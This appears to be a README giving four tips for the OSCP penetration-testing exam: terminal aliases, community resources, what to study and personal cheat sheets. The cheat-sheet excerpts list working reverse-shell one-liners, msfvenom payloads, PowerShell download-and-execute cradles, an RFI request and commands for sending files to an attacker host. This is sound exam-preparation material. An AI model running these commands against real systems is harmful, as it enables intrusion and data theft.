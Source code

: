 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:

![Google cheat sheet result count](google_cheat_sheet_count.png)

and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:

1. An enumeration cheat sheet:

```
PORT SCAN
=========
sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

SERVICE ENUMERATION
===================
21 FTP
22 SSH
	* OpenSSH <= 7.7 has username enumeration vulnerability
		* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
			* source: https://github.com/BlackDiverX/ssh-user-enumeration
		* python 45939.py $targ root
	* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
		* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
25 SMTP
	* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
	* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
	* shellshock RCE vulnerability exists for postfix smtp server w/procmail
		* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
...
```

2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* bash -i >& /dev/tcp/$tun0/4444 0>&1
* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
* nc -e /bin/bash $tun0 4444
* nc -c /bin/bash $tun0 4444
* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
	* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
	* netcat shell for nc without -e or -c
	* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
...

DOWNLOAD FILES TO TARGET
========================
* scp $file $user@$targ:~/$file
* curl http://$tun0:8888/$file -o /tmp/$file
* wget http://$tun0:8888/$file -O /tmp/$file
* axel http://$tun0:8888/$file -o /tmp/$file
...

CRONJOBS
========
* use pspy to view short-lived processes
* check cron log file for cronjobs in execution
	grep "CRON" /var/log/syslog*
* list all /etc/cron files
	ls -lhra /etc/cron*
* check /etc/crontab- sometimes sysadmins put tasks
* users can create cronjobs with crontab -e
	* without adequate permissions we cannot view other users' crontabs
	* crontabs are stored in /var/spool/cron/crontabs/$user
...
```

3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
* nc.exe $tun0 4444 -e cmd.exe
* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
...

UPLOAD FILES TO ATTACKER
========================
* nc -nvlp 6666 > $file
	* to receive
* nc.exe $tun0 6666 -w 3 < $file.out
* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
	* useful for cases without '<'
* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
* sudo impacket-smbserver smb_share $directory
	* copy $file.out \\$tun0\smb_share\
...

GENERAL PRIV ESC
================
* whoami /all
	* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
		* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
* net localgroup Administrators
	* shows who is inside Administrators group
* dir /b /s *.ext
	* search for files with file extension
* dir /r
	* view alternate data streams
* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	* review user's powershell history
...
```
Good luck!